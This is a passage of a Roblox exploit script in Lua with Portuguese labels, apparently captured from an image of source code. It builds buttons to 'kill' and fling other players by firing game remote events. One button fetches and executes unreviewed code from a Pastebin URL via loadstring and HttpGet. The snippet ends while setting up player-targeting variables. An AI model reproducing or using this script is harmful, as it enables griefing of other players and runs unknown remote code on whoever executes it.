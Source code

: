 Tab:AddButton({
Name = "KILL (ative A animacÃ£o Deite-se)",
Description = "Equipa o item 'Couch' e teleporta o jogador selecionado",
Callback = function()
killAdvancedPlayer()
end
})

Tab:AddButton({
Name = "Puxar Todos (Trollar)",
     Callback = function()
     --KK
     
     local args = {
    [1] = "ClearAllTools"
}

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Clea1rTool1s"):FireServer(unpack(args))

	--Couch Item
	
	local args = {
    [1] = "PickingTools",
    [2] = "Couch"
}
 
game:GetService("ReplicatedStorage").RE:FindFirstChild("1Too1l"):InvokeServer(unpack(args))

--Fling aall

loadstring(game:HttpGet("https://pastebin.com/raw/zqyDSUWX"))()
   end
})

local Section = Tab:AddSection({
Name = "Kill V2 [!] PODE CONTER ERROS"
})


-- ServiÃ§os necessÃ¡rios
local playerService = game:GetService('Players')
local runService = game:GetService('RunService')
local localPlayer = playerService.LocalPlayer
local backpack = localPlayer:FindFirstChildOfClass('Backpack')

-- VariÃ¡veis globais
local flingV14Toggle = false
local selectedFlingPlayerV14 = nil
local flingV14Connection
local playerSpawnedConnection
local spinFlingConnection
local bodyThrust

-- FunÃ§Ã£o para obter a lista de jogadores
local function getPlayerList()
    local playerList = {}
    for _, player in ipairs(playerService:GetPlayers()) do
        if player ~= localPlayer then
            table.insert(playerList, player.Name)
        end
    end
    return playerList
end
